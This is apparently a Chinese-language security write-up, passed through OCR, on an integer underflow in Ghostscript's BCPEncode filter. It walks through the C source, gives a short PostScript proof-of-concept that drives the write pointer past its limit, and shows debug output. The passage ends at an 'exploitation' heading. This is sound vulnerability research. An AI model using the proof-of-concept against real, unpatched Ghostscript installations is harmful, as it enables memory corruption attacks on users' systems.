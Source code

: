 ```plain
                break;
            }
            *++q = CtrlA;
            ch ^= 0x40;
            if (--wcount < rcount)
                end--;
        }
        *++q = ch;
    }
    pr->ptr = p;
    pw->ptr = q;
    return (p == rlimit ? 0 : 1);
}
```

在该函数中，将读取的每个字符与转义字符列表进行比较。如果它不在列表中，则简单地按原样写入。如果它在转义列表中，将执行一些检查。首先检查（p=rlimit）确保读取指针p不在正在读取的缓冲区的最后一个字符处。如果是，则读取指针递减，循环退出。如果不是，它将写入CtrlA（即0x01），增加写入指针，并用0x40异或当前字符。在最后一次检查之后，它写入当前字符（异或字符），并再次增加写入指针。如果接收的缓冲区的空间小于筛选器正在读取的缓冲区，则if（--wcount<rcount）检查尝试通过递减结束限制指针来确认此双写入。之后，读取和写入指针被更新，并且函数返回。

通过代码、调试语句和一些调试，错误的根本原因变得更加清楚。似乎，在s\_xBCPE\_process函数之后，pw->ptr被更新为大于pw->limit的值，导致（uint）（pw->limit-pw->ptr）溢出。

以下PostScript将导致溢出：

```plain
/writtenTo {4 string} def % declare an empty string of size 4
/theFilter writtenTo /BCPEncode filter def % declare a filter, using the BCPEncode that writes to the string
/readsFrom <414141134141> def % declare a string of size 6: 5 'A's and 0x13, which is an escaped character
theFilter readsFrom writestring % write the string to the filter
theFilter flushfile % flush the file for the write to happen
```

创建一个比我们试图读取的字符串更小的要写入的字符串是通过p=rlimit来进行检查的。将缓冲区填充到比已满少一个字节，然后传递转义字符会导致两个q增量。这就导致程序绕过了对p的长度检查

```plain
./gs -Zs -f poc.ps
[...]
[s]init 0x560dc8218ba8, buf=0x560dc8218d20, len=2048, modes=2
[s]write process 0x560dc8218ba8(stream_state), nr=6, nw=4, end=0
[s]after write 0x560dc8218ba8, nr=2, nw=4294967295, end=0, status=1
[s]moving ahead, depth = 1
[s]write process 0x560dc82125a8(stream_state), nr=5, nw=0, end=0
[s]after write 0x560dc82125a8, nr=5, nw=0, end=0, status=-2      
[s]unwinding
[s]write process 0x560dc7f4f668(stream_state), nr=15, nw=0, end=0
Error: /ioerror[s]after write 0x560dc7f4f668, nr=0, nw=0, end=0, status=0  
[...]
```

写入后，nw变量（即pw->limit-pw->ptr）溢出。对该流的下一次写入应该会导致越界写入，但在这种情况下，这样做会引发io error，表明文件已关闭，因为没有更多的空间可写入。

## 漏洞利用
